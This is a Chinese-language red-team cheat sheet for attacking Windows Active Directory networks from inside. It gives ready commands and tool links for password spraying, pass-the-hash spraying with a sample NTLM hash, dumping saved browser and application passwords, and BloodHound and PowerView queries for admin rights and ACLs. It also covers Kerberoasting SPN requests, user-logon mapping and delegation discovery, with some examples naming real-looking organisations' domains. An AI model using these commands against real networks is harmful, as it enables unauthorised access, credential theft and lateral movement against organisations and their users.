

内网侦查
目录
密码喷洒
Invoke-DomainPasswordSprayOutsideTheDomain -Domain "10.0.0.10/DC=ds,DC=local" -UserList .\user.txt -Password p@ssw0rd -Verbose
或者https://github.com/dafthack/DomainPasswordSpray,有个import-module会遇到的坑https://github.com/dafthack/DomainPasswordSpray/issues/31
Invoke-DomainPasswordSpray -UserList users.txt -Domain domain-name -PasswordList passlist.txt -OutFile sprayed-creds.txt
上面两个ps1在cs上无法直观看到喷洒情况
或者cme https://github.com/Porchetta-Industries/CrackMapExec（m2芯片不太兼容）
crackmapexec 10.0.2.0/24 -u ‘admin’ -p ‘P@ssw0rd'
或者https://github.com/TarlogicSecurity/kerbrute.git python脚本 (力荐，挂代理直接喷）
hash喷洒
cme
cme smb 172.16.157.0/24 -u administrator -H 'aad3b435b51404eeaa35b51404ee:5509de4ff0a6e8d9f4a61100e51' --local-auth
空smb会话扫描
mylanviewer
泉顺用的。套代理不好用，得在物理机搞
掏密码
https://github.com/RowTeam/SharpDecryptPwd 综合掏
https://github.com/QAX-A-Team/BrowserGhost 只掏浏览器，年代久远
综合扫描
powerview-python版
https://github.com/the-useless-one/pywerview.git
https://github.com/aniqfakhrul/powerview.py
需要控制的机器开启ldap
zscan
https://github.com/zyylhn/zscan端口扫描器+密码爆破工具+部分cve检测
bloodhound
要先装neo4j，图像化展示
查看每个机器的管理员账户有哪些
MATCH (c:Computer)
OPTIONAL MATCH (u1:User)-[:AdminTo]->(c)
OPTIONAL MATCH (u2:User)-[:MemberOf*1..]->(:Group)-[:AdminTo]->(c)
WITH COLLECT(u1) + COLLECT(u2) AS tempVar,c
UNWIND tempVar AS admins
RETURN c.name AS computerName,admins.name AS adminName
ORDER BY computerName ASC
查看acl
powerview
可能存在确实IdentityReference的情况，从而导致 “不能直观的知道哪个用户的该权限作用于此用户”
不过可以根据SecurityIdentifier指向的sid推断
Get-ObjectAcl -samAccountName username -ResolveGUIDs

查看谁对bob有genericall权限
Get-ObjectAcl -samAccountName bob -ResolveGUIDs | ? {$_.ActiveDirectoryRights -eq "GenericAll"}
查看bob对哪个用户有权限
Get-ObjectAcl -ResolveGUIDs | ? {$_.IdentityReference -eq "bob"}
若poweiview没有IdentityReference属性
Get-ObjectAcl -ResolveGUIDs | ? {$_.SecurityIdentifier -eq "SID-xxx-x-x-x-xx"}
查看任何用户对某用户组的权限
在distinguishedname中找到某用户组的对ldap路径
Get-NetGroup "domain admins" -FullData
进行acl查询
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local"}
dsacls.exe
dsacls "CN=bob,CN=Users,DC=cia,DC=gov"
Active Directory Module
在Windows Server 2008 R2或者更高的版本的powershell控制台我们需要在使用之前执行以下命令将模块作为功能添加到服务器管理器中：
Import-Module ServerManager
Add-WindowsFeature RSAT-AD-PowerShell
import-module ActiveDirectory
(Get-Acl -Path "AD:CN=bob,CN=Users,DC=cia,DC=gov").access
查spn
impacket
getuserspns.py
py -3 GetUserSPNs.py test.com/administrator:1qaz@WSX -target-domain test.com
域用户可登录主机查看
adfind
查询某个域用户能登录哪些机器，-h参数指定ldap的数据库服务器
AdFind.exe -sc u:xiaoming userWorkstations -h ad.caonima.com
查询某个域用户正在登录哪台主机
net user
net user xxx /domain
可允许的工作站里便是
常见cve扫描
advul
https://github.com/Amulab/advul
委派
非约束性委派
扫描
Get-NetUser -Domain de1ay.com|? {$_.useraccountcontrl -like "*trusted_for_delegation*"}
约束性委派
扫描
Get-NetUser -trustedtoauth -Domain shfe.com.cn
文件搜索
everything，可以直接起一个http端口用来查文件https://www.freebuf.com/sectool/261723.html